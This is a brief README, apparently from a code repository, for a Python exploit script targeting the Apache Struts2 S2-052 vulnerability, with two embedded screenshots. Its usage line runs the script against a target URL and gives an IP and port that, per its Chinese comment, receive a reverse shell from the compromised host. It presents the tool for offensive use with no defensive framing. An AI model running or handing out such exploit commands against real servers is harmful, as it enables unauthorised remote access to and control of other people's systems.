 # Apache-Struts2

Usage : python s2-052-exp.py http://127.0.0.1/orders/ ip port #反弹目标主机IP 端口

<img width="940" alt="WechatIMG8" src="https://user-images.githubusercontent.com/19663680/183552139-2f18e2c0-5e2e-4fde-addc-caebf95c036e.png">

<img width="627" alt="WechatIMG9" src="https://user-images.githubusercontent.com/19663680/183552207-f48de5e1-f7f1-4146-bf5c-e535fb17cf6b.png">

